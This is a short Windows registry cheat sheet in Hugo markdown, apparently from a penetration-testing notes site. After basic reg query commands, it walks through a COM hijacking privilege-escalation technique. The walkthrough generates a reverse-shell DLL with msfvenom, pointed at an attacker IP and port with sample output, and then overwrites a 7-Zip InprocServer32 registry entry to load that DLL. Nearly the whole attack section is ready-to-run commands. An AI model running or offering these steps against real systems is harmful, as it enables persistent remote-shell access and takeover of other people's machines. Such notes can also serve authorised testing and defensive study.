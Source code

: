 ```yaml
---
title: "Registry"
date: 2025-7-14
tags: ["Windows", "Registry", "reg.exe", "Windows Internals", "Persistence", "COM Hijacking", "DLL Injection"]
---
```


### Basic

```console
# Queries all CLSID entries recursively
reg query HKCR\CLSID /s
```

```console
# Queries CLSID entries containing KEYWORD recursively
reg query HKCR\CLSID /s /f "<KEYWORD>"
```

```console
# Queries HKLM entries containing KEYWORD recursively
reg query HKLM /s /f "<KEYWORD>"
```

### Privesc #1: COM Hijacking

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Query Registry

```console
# Queries all CLSID entries recursively
reg query HKCR\CLSID /s
```

```console
# Queries CLSID entries containing KEYWORD recursively
reg query HKCR\CLSID /s /f "<KEYWORD>"
```

```console {class="sample-code"}
PS C:\Windows\system32> reg query HKCR\CLSID /s /f "zip"
reg query HKCR\CLSID /s /f "zip"

HKEY_CLASSES_ROOT\CLSID\{2317---[SNIP]---20000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_CLASSES_ROOT\CLSID\{2317---[SNIP]---20000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll

---[SNIP]---
```

#### 2. Create Malicious DLL

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.10.10 LPORT=1337 > rev.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
```

#### 2. Replace Default Value

```console
reg add "HKLM\Software\Classes\CLSID\<CLSID>\InprocServer32" /ve /d "<CUSTOM_DLL>" /f
```

```console {class="sample-code"}
PS C:\Windows\system32> reg add "HKLM\Software\Classes\CLSID\{2317---[SNIP]---20000}\InprocServer32" /ve /d "C:\programdata\rev.dll" /f
reg add "HKLM\Software\Classes\CLSID\{2317---[SNIP]---20000}\InprocServer32" /ve /d "C:\programdata\rev.dll" /f
The operation completed successfully.
```

{{< /tabcontent >}}
